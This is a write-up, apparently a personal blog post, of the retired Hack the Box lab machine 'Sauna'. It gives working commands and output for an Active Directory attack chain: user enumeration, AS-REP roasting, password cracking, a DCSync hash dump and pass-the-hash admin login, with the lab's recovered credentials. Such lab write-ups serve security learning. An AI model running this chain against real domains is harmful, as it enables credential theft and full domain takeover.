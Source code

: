 ```yaml
---
layout: post
title: Hack the Box - Sauna
author: Kolja
categories: [HtB]
tags: [ad]
---
```



This box is retired and part of the Active Directory 101 path, which is why I took a look at it.

## Recon
There is a website which contains the names of the employees. Using these we can then try different combinations using `kerbrute`:
```
./kerbrute_linux_amd64 userenum userlist.txt -d egotistical-bank.local --dc 10.10.10.175
```

This yields, that e.g. `fsmith`  is the username for `Fergus Smith`.

## Foothold
We can try to AS-REP Roasting for the found users using `impacket`:
```
impacket-GetNPUsers  -dc-ip 10.10.10.175 -usersfile  userlist.txt -format john -outputfile hashes egotistical-bank.local/
```

We got hashes here, which can be cracked using `john`:
```
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
[...]
Thestrokes23     ($krb5asrep$fsmith@EGOTISTICAL-BANK.LOCAL) 
```

With the found credentials we can log in using `evil-winrm`.  
```
evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'

Evil-WinRM shell v3.3
[...]

*Evil-WinRM* PS C:\Users\FSmith\Documents>
```
## Privilege Escalation
Executing `WinPEAS` gives us Autologon Credentials for another user:
```
[+] Looking for AutoLogon credentials(T1012)  
Some AutoLogon credentials were found!!  
DefaultDomainName : EGOTISTICALBANK  
DefaultUserName : EGOTISTICALBANK\svc_loanmanager  
DefaultPassword : Moneymakestheworldgoround!
```

We can collect information using the `bloodhound-python` collector:
```
bloodhound-python -c All -u fsmith@egotistical-bank.local -p Thestrokes23 -ns 10.10.10.175 -d egotistical-bank.local -dc sauna.egotistical-bank.local 
```
In the collected data we can see, that the `SVC_LOANMGR` user can DCSync:

![get changes permission](/assets/htb_sauna_get_changes.png)

We can again use `impacket` to do this:
```
impacket-secretsdump 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175' 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
[...]
```

This gives us the NTLM hashes for all users, which means that we can now login as the Administrator user again using `evil-winrm`:

```
evil-winrm -i 10.10.10.175 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e

Evil-WinRM shell v3.3

[...]

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

